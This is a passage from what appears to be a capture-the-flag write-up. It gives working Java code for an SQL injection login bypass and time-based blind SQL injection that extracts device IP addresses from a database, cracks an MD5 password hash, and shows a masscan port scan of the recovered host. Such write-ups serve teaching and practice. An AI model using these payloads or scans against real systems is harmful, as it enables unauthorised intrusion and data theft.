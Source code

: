 ```java
	PayloadRequest.blindPassword(); // 5f4dcc3b5aa765d61d8327deb882cf99
```

There is only one user ("admin", "5f4dcc3b5aa765d61d8327deb882cf99"). Is that a hash? _Googled_ it and found the answer, yes it is: md5('password'). Now we are able to log in using admin:password or even using the sqli:

```java
    System.out.println(PayloadRequest.sendCommand("admin", "password", "getTemp"));
    // {"temperature": 73, "success": true}
    System.out.println(PayloadRequest.sendCommand("' union all select '47bce5c74f589f4867dbd57e9ca9f808'#", "aaa", "getTemp"));
    // {"temperature": 73, "success": true}
```

Time to dump table `devices`. 

```java
	public static String blindIpDevices(int offset) throws Exception {
	    String injection = "'||(IF((SELECT ascii(substr(ip,%d,1)) from devices limit "+offset+",1)%c%d,SLEEP(%d),1))#";
	    return PayloadRequest.blindString(injection, 16); // Fixed length
	}
	...
	PayloadRequest.blindIpDevices(0);
	// Device: 0	192.88.99.253
	PayloadRequest.blindIpDevices(1);
	// Device: 1	192.88.99.252
	PayloadRequest.blindIpDevices(2);
	// Device: 2	10.90.120.23
```

After obtain several ips I noted that most belonged to a private IP address block. My first idea was to build a query removing all private IP addresses and also classes D and E (see `where` clause):

```java
	public static String blindDeviceQuery() throws Exception {
		String injection = "'||(IF((SELECT ascii(substr(ip,%d,1)) from devices where substr(ip,1,2) not in ('24', '25') and substr(ip,1,3) not in ('192', '10.', '198') limit 0,1)%c%d,SLEEP(%d),1))#";	
		return PayloadRequest.blindString(injection, 16);
	}
	
	PayloadRequest.blindDeviceQuery();
	// 104.196.12.98
```

Nice! A real IP address.

## Server 104.196.12.98

First recon step here is to run a port scan to discover if there is any service. As a result I got port 80 (http).

```
Starting masscan 1.0.6 (http://bit.ly/14GZzcT ) at 2019-03-02 22:32:46 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65536 ports/host]
Discovered open port 22/tcp on 104.196.12.98
Discovered open port 80/tcp on 104.196.12.98
```
